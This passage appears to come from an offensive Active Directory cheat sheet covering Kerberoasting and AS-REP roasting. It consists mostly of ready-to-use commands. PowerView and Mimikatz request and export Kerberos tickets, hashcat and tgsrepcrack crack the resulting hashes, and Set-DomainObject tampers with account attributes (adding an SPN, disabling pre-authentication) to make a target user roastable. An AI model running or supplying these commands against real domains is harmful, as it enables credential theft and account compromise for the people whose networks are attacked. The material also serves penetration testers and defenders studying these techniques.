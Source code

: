 With PowerView:

```powershell
Get-DomainSPNTicket -SPN "MSSQLSvc/sqlserver.targetdomain.com"
```

Crack the hash with Hashcat:

```bash
hashcat -a 0 -m 13100 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule
```

#### Manual

```powershell
# Request TGS for kerberoastable account (SPN)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sqlserver.targetdomain.com"

# Dump TGS to disk
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack with TGSRepCrack
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\mssqlsvc.kirbi
```

#### Targeted kerberoasting by setting SPN

We need have ACL write permissions to set UserAccountControl flags for the target user, see above for identification of interesting ACLs. Using PowerView:

```powershell
Set-DomainObject -Identity TargetUser -Set @{serviceprincipalname='any/thing'}
```

### AS-REP roasting

Get the hash for a roastable user (see above for hunting). Using `ASREPRoast.ps1`:

```powershell
Get-ASREPHash -UserName TargetUser
```

Crack the hash with Hashcat:

```bash
hashcat -a 0 -m 18200 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule
```

#### Targeted AS-REP roasting by disabling Kerberos pre-authentication

Again, we need ACL write permissions to set UserAccountControl flags for the target user. Using PowerView:

```powershell
Set-DomainObject -Identity TargetUser -XOR @{useraccountcontrol=4194304}
```
